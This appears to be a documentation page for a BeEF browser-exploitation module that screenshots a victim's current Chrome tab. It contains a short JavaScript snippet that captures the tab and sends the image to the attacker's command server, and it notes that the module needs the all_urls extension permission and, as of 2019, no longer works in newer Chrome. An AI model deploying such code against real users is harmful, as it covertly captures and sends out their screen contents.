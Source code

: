 ## Summary

* **Objective**: Take a screenshot of the current tab
* **Authors**: mh
* **Browsers**: Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/chrome_extensions/screenshot)

## Internal Working

This module tries to take a screenshot of the current tab and returns it to the as base64 data. Only works if the `chrome.tabs.captureVisibleTab` method is available.

As of 2019, it does not work in the newer versions of Chrome. This method only works within the context of an extension having the `<all_urls>` permission.

``` js
chrome.tabs.captureVisibleTab(null, function(img) {
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'img: ' + img.toString());
});
```

## References

https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/API/Tabs/captureVisibleTab


## Feedback

